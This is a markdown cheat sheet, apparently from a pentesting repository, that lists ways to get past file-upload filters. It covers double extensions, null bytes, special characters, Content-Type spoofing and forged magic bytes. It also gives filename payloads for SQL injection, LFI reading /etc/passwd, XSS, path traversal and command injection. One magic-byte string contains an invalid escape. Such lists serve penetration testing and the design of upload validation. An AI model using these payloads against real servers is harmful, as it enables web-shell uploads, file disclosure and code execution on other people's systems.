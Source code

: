 ## Bypasses
#### Double extensions
```bash
file.jpg.php
file.php.jpg
file.php.blah123jpg
file.png.php
file.png.Php5
file.php%00.png
file.php%0d%0a.png
file.php%0a.png
file.php\x00.png
```
#### Null byte
```bash
file.php%00.gif
file.php\x00.gif
file.php%00.png
file.php\x00.png
file.php%00.jpg
file.php\x00.jpg
```
#### Special characters
```bash
file.php......
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.pHp5....
file.%E2%80%AEphp.jpg
```
#### Content-type Bypass
```bash
#Original name but different content-type
Content-Type: image/jpeg
Content-Type: image/gif
Content-Type: image/png
```
#### Magic bytes
```bash
#Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application
PNG: \x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[
JPG: \xff\xd8\xff
GIF: GIF87a
GIF: GIF8
```
#### Triple equal
```bash
/?file=shell.php    <-- Blocked
/?file===shell.php  <-- Bypassed
```
#### Filename Vulnerabilities
```bash
#Time-Based SQLi Payloads
poc.js'(select*from(select(sleep(20)))a)+'.extension

#LFI Payloads
image.png../../../../../../../etc/passwd

#XSS Payloads
'"><img src=x onerror=alert(document.domain)>.extension

#File Traversal
../../../tmp/lol.png

#Command Injection
; sleep 10;
```
